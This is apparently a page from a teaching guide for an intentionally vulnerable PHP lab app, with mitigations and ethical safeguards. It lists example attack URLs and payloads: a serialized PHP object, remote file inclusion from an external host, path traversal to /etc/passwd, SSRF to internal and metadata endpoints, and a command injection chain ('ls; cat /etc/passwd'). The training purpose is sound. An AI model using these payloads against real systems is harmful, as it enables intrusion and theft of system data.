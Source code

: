 #### **2. Insecure Deserialization**
- URL: `http://<server-ip>/advanced-vulnerable-app/deserialize.php`
- Exploit: Craft a serialized payload for PHP objects.
  - Example:
    ```php
    O:8:"stdClass":1:{s:4:"data";s:11:"Malicious";}
    ```

#### **3. Remote File Inclusion**
- URL: `http://<server-ip>/advanced-vulnerable-app/rfi.php?file=http://example.com/malicious.php`
- Exploit: Host malicious PHP files externally and include them.

#### **4. Path Traversal**
- URL: `http://<server-ip>/advanced-vulnerable-app/traversal.php?file=../../../../etc/passwd`
- Exploit: Access sensitive system files.

#### **5. Server-Side Request Forgery (SSRF)**
- URL: `http://<server-ip>/advanced-vulnerable-app/ssrf.php?url=http://localhost/admin`
- Exploit: Access internal services or metadata endpoints (e.g., AWS metadata).

#### **6. Command Injection**
- URL: `http://<server-ip>/advanced-vulnerable-app/command.php?cmd=ls`
- Exploit: Use additional commands with chaining:
  - Input: `ls; cat /etc/passwd`

---

### **Ethical Safeguards**
1. Restrict the VM’s access to the public internet to prevent real damage.
2. Educate participants about legal and ethical hacking practices.
3. Use a private, isolated network for demonstrations.

---

### **Demonstration Flow**

1. **Explain Each Vulnerability**:
   - Define the vulnerability and its real-world impact.
   - Discuss how it could be exploited and its severity.

2. **Demonstrate the Attack**:
   - Show the process of crafting payloads for SQL Injection, Deserialization, RFI, etc.

3. **Guide on Mitigation**:
   - **SQL Injection**: Use prepared statements.
   - **Deserialization**: Validate data before unserializing.
   - **RFI**: Restrict `include()` to local files.
   - **Path Traversal**: Use `realpath()` to validate paths.
   - **SSRF**: Validate and restrict URLs.
   - **Command Injection**: Sanitize inputs before executing.

This setup provides an **authentic and professional-level environment** for teaching advanced vulnerabilities and their mitigation in cybersecurity.